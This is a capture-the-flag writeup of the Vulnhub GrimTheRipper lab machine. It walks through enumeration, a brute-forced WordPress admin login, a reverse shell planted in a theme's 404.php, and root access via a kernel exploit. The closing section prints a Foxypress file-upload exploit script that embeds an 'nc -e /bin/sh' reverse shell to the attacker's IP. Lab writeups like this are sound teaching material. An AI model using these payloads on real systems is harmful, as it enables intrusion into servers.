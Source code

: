 ```yaml
---
layout: post
title: Vulnhub - GrimTheRipper writeup
date: 2019-08-24 3:45 PM
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/grimtheripper-1,350/">GrimTheRipper:1</a>
  <br>
</h1>

<h4 align="center"> Author: Manish Chandra</h4>

## Nmap

![](images/grim/nmap.png)

Looks like a Simple machine with only two ports open. Let's enum HTTP

***

## HTTP

![](images/grim/website.png)

Visiting the website we get nothing but the image of kevin hart.

I ran gobuster on this to find any hidden dir.

![](images/grim/gobuster.png)

We can see `robots.txt` there. In that I found `/index2.html`.

![](images/grim/robots.png)

If we visit `http://192.168.184.134/index2.html` we can see again a random image

![](images/grim/rando.png)

But in the source of that page I found a base64 encoded string.

![](images/grim/source.png)

`--THpFd01UQXhNREU9IHRyeSBoYXJk--`

I decoded it to find a new URL

![](images/grim/decode.png)

`/1010101`

If we visit that URL we can see a new directory named `wordpress`.

![](images/grim/wp-dir.png)

Since we've found a `wordpress` directory maybe it's time to run `wpscan`

![](images/grim/wordpress.png)

__NOTE__: All the links you on this wordpress will be leading to localhost i.e 127.0.0.1. To fix this run the following command on you system(not the target VM)

```
➜ socat TCP-LISTEN:80,fork TCP:Target-IP:80
```

So for me the machine IP was `192.168.184.134` in that case the command would be

```
➜ socat TCP-LISTEN:80,fork TCP:192.168.184.134:80
```

Now if we open the website we'll see a properly formatted wordpress with all the links working fine.

***
At this point we ([@4ndr34z](https://twitter.com/@4ndr34z), [@DCUA7](https://twitter.com/DCUA7), [@theart42](https://twitter.com/theart42), [@Robin](https://twitter.com/D4mianWayne)) were stucked for hours. We checked everything we could like shellshock vulnerability because the Apache server was old. Then we did SSH username enumeration because OpenSSH version was old. But we found nothing.

After many hours [@4ndr34z](https://twitter.com/4ndr34z) found the `admin` password for wordpress via bruteforce. It literally took more then 6 or 7 hours.

***

![](images/grim/pass.png)

__image by @4ndr34z__

`admin:Password@123`

With this password I was able to login into Wordpress.

![](images/grim/logged-in.png)

I edited the `Twenty Twelve` 404.php file with my reverse shell code.

![](images/grim/edit.png)

Now If we visit `http://192.168.184.134/1010101/wordpress/wp-content/themes/twentytwelve/404.php` while our listener is listening on port 4444 then we'll get the reverse shell.

![](images/grim/rev.png)

***

## Privilege escalation

I ran enumeration script and it found quite a few things.

![](images/grim/users.png)

and

![](images/grim/old-kernel.png)

I searched this kernel with `searchsploit` and found `overlayfs` exploit.

![](images/grim/exploit.png)

I downloaded that exploit and compiled it on the machine. After executing it I got the root shell.

![](images/grim/root-shell.png)

There was no root flag but still I was root.

![](images/grim/root.png)


***

## Intended way of getting shell

Okay so this is still kinda guessy but we think that `foxypress` plugin exploitation is the real way to get the reverse shell.

For exploiting `foxypress` we can use [WordPress Plugin Foxypress 0.4.1.1 < 0.4.2.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/18991) exploit.

Edit the exploit in the following way:

```php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://http://192.168.184.134/1010101/wordpress/wp-content/plugins/foxypress/uploadify/uploadify.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

<?php
system("nc -e /bin/sh 192.168.184.1 4444");
?>
```

And then run this exploit `php exploit.php` while your listener is running.

But the problem with this is we only know about `foxypress` because we logged in into wordpress. wpscan didn't pointed out presence of `foxypress`. So the question still remains that how do we know we are supposed to exploit that.

***

If this machine was supposed to be done the way we did it then it's really bad machine. I mean 6-7 hours of pure bruteforce is insane, not in a good way.

But if author or someone else ends up reading this and knows the really way to solve this then please let me know.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
